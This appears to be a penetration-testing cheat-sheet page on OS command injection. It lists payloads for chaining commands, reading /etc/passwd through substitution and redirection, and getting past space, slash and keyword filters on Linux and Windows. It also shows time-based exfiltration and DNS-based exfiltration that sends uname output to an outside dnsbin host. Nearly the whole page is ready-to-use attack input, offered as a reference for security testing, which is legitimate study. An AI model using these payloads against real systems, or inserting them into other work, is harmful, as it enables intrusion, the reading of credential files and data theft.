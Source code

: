 ```yaml
---
title: Command Injection
---
```


# Command Injection

Command injection is an attack
in which the attacker
executes arbitrary commands
on the host OS
via a vulnerable application.
Command injection attacks are possible
when an application
passes unsafe user-supplied data
to a system shell.
[^command-injection-owasp]

{{<hint info>}}
Commands are usually executed with the privileges of the vulnerable application.
{{</hint>}}

## Command Chaining

```sh
<input>; ls
<input>& ls
<input>&& ls
<input>| ls
<input>|| ls
```

{{<hint warning>}}
Also try prepending a flag or parameter.
{{</hint>}}

### Chaining Operators

Windows and Unix supported.

|      | Syntax          | Description                                           |
| ---- | -------------   | -------                                               |
| `%0A`| `cmd1 %0A cmd2` | Newline. Executes both.                               |
| `;`  | `cmd1 ; cmd2`   | Semi-colon operator. Executes both.                   |
| `&`  | `cmd1 & cmd2`   | Runs command in the background. Executes both.        |
| `|`  | `cmd1 | cmd2`   | PIPE operator. Sends `cmd1`'s output as `cmd2` input. |
| `&&` | `cmd1 && cmd2`  | AND operator. Executes `cmd2` if `cmd1` succeds.      |
| `||` | `cmd1 || cmd2`  | OR operator. Executes `cmd2` if `cmd1` fails.         |

## I/O Redirection

```sh
> /var/www/html/output.txt
< /etc/passwd
```

## Command Substitution

Replace a command output with the command itself.[^substitution-gnu]

```sh
<input> `cat /etc/passwd`
```

```sh
<input> $(cat /etc/passwd)
```

## Filter Bypassing

### Space filtering [^spaceless-ifs]

#### Linux

```sh
cat</etc/passwd
# bash
${cat,/etc/passwd}
cat${IFS}/etc/passwd
v=$'cat\x20/etc/passwd'&&$v
IFS=,;`cat<<<cat,/etc/passwd`
```

#### Windows [^spaceless-windows-rce]

```ps
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### Slash (`/`) filtering

```sh
echo ${HOME:0:1} # /
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

```sh
echo . | tr '!-0' '"-1' # /
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

### Command filtering

Quotes.

```sh
w'h'o'am'i
w"h"o"am"i
```

Slash.

```sh
w\ho\am\i
/\b\i\n/////s\h
```

At symbol.

```sh
who$@ami
```

Variable expansion.

```sh
v=/e00tc/pa00sswd
cat ${v//00/}
```

Wildcards.

```ps
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## Time Based Data Exfiltration [^time-based-rce]

```sh
time if [ $(uname -a | cut -c1) == L ]; then sleep 5; fi
```

## DNS Based Data Exfiltration [^dns-bin]

- [pingb.in](//pingb.in)
- [dnsbin.zhack.ca](//dnsbin.zhack.ca)

`dnsbin` Example:

```sh
host $(uname -a).c2cebb6a3678849a2eee.d.zhack.ca
```


[^command-injection-owasp]: “Command Injection | OWASP.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/attacks/Command_Injection.
[^substitution-gnu]: “Command Injection | OWASP.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/attacks/Command_Injection.
[^spaceless-windows-rce]: https://twitter.com/bugbountynights/status/860102244171227136
[^spaceless-ifs]: https://twitter.com/asdizzle_/status/895244943526170628
[^time-based-rce]: Pobereznicenco, Dan. “Exploiting Timed Based RCE – Security Café.” Security Café, 28 Feb. 2017, https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/.
[^dns-bin]: ettic-team. “GitHub - Ettic-Team/Dnsbin: The Request.Bin of DNS Request.” GitHub, https://github.com/ettic-team/dnsbin.
